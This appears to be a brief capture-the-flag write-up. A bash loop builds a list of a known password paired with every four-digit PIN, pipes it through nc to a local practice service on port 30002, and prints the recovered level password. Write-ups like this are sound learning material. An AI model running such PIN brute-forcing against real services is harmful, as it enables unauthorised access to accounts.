 for i in {0000..9999}
do
	echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> passlist
done

using upper script passlist contains all the combinations
now execute
cat passlist | nc localhost 30002


password is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
